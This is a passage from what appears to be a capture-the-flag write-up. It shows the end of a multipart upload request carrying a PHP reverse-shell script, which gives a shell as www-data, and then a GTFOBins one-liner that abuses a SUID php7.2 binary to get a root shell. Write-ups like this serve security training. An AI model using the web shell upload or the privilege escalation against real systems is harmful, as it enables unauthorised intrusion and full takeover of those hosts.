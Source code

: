```web request
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>

------WebKitFormBoundaryusjPIBaZCnX5hxKK--

```

We have a shell as `www-data`

Go User Flag

![[Pasted image 20220628192248.png]]

## Privilege Escalation

Tried to `su` using known password for daisa, didn't work.

linpeas identified `php7.2` as having the SUID bit set. This was not immediately evident, so I had to cheat by loooking up the answer on a walkthrough.

Once we saw the SUID bit, we made use of [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid)

```bash
/usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

This gives us a root shell.

![[Pasted image 20220628195102.png]]
